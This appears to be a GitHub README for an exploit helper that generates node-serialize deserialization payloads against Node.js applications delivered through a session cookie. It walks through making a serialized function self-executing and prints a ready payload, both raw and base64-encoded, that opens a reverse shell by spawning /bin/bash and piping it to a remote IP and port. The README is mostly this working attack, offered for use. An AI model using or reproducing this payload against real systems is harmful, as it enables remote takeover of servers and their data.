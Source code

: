 # Nodejs_RCE

## Description

A quick make for a node.js rce base64 encoded value

## Usage

Read the script and edit the IP, PORT (maybe payload, escape the double quotes!!)

## More info on the RCE (Serailize test)

Setup environment!

```bash
sudo apt-get install node
sudo apt-get install npm
npm install node-serialize
```

test.js file

```
var y = {
 "email": function(){ return "hello"; })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

We auto execute the code adding () at the end 

```
var y = { "email": function(){ return "hello"; })}()}
```

Then base64 encoded the value to add to a session= cookie. 

## Script output

```
Payload
{"email":"_$$ND_FUNC$$_function(){ var net = require(\"net\"), sh = require(\"child_process\").exec(\"/bin/bash\");var client = new net.Socket();client.connect(9999, \"10.10.10.10\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});}()"}
Base64
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyB2YXIgbmV0ID0gcmVxdWlyZShcIm5ldFwiKSwgc2ggPSByZXF1aXJlKFwiY2hpbGRfcHJvY2Vzc1wiKS5leGVjKFwiL2Jpbi9iYXNoXCIpO3ZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpO2NsaWVudC5jb25uZWN0KDk5OTksIFwiMTAuMTAuMTAuMTBcIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTtzaC5zdGRlcnIucGlwZShjbGllbnQpO30pO30oKSJ9
```
